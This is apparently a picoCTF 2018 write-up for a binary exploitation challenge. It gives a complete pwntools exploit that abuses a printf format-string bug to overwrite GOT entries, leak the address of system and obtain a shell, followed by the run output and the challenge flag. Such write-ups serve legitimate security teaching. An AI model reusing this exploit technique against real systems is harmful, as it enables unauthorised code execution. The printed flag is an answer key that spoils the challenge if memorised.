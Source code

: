 # Problem
This [program](https://2018shell1.picoctf.com/static/31a735bf5c057adfacac1cb8920afaee/echoback) we found seems to have a vulnerability. Can you get a shell and retreive the flag? Connect to it with ```nc 2018shell1.picoctf.com 37857```.

## Hints:
hmm, printf seems to be dangerous...

You may need to modify more than one address at once.

Ever heard of the Global Offset Table?

## Solution:

Lets download the files:
```bash
wget https://2018shell1.picoctf.com/static/31a735bf5c057adfacac1cb8920afaee/echoback
chmod +x ./echoback
```

Lets take a look with IDA:

![screenshot 1](./screenshot-1.png)
![screenshot 2](./screenshot-2.png)

Strategy:
* Redirect ```puts()``` back to ```vuln()```.
* Leak the address of ```system()```.
* Redirect ```printf()``` to ```system()```.
* Enjoy the shell


Code:
```python
#!/usr/bin/env python

from pwn import *


debug = 0


def write_memory(address, value):
  v1 = (value & 0x0000FFFF) - 8
  v2 = (value >> 16) - (value & 0x0000FFFF)

  if v2 < 0:
    v2 += 0x00010000

  ret = p32(address) + p32(address + 2) + '%{}x'.format(v1) + '%7$hn'

  if v2 != 0:
    ret += '%{}x'.format(v2)

  ret += '%8$hn'

  return ret

if debug:
  p = process('./echoback')
else:
  p = remote('2018shell1.picoctf.com', 37857)

binary = ELF('./echoback')

p.recvuntil('input your message:')

# Override puts@got with vuln
log.info('Overriding puts@got with vuln')
payload = write_memory(binary.symbols['got.puts'], binary.symbols['vuln'])
p.sendline(payload)

p.recvuntil('input your message:')

log.info('Leaking address of system')
p.sendline(p32(binary.symbols['got.system']) + "." + "%7$s" + ".")
leaked_system = p.recvuntil('input your message:')
leaked_system = unpack(leaked_system.split('.')[1][:4], 32, endian='little')
log.info('Leaked system address: {}'.format(hex(leaked_system)))

# Override printf@got with system@got
log.info('Overriding printf@got with system@got')
payload = write_memory(binary.symbols['got.printf'], leaked_system)
p.sendline(payload)

p.recvuntil('input your message:')

p.sendline('cat flag.txt')
print p.recvuntil('}')
p.close()
```

The output:
```bash
[+] Opening connection to 2018shell1.picoctf.com on port 37857: Done
[*] '/home/roee/Dropbox/Hacking/CTF/picoCTF-2018/Binary/12-echo_back-500/echoback'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[*] Overriding puts@got with vuln
[*] Leaking address of system
[*] Leaked system address: 0xf759d940
[*] Overriding printf@got with system@got

picoCTF{foRm4t_stRinGs_aRe_3xtra_DanGer0us_73881db0}
[*] Closed connection to 2018shell1.picoctf.com port 37857
```

Flag: picoCTF{foRm4t_stRinGs_aRe_3xtra_DanGer0us_73881db0}

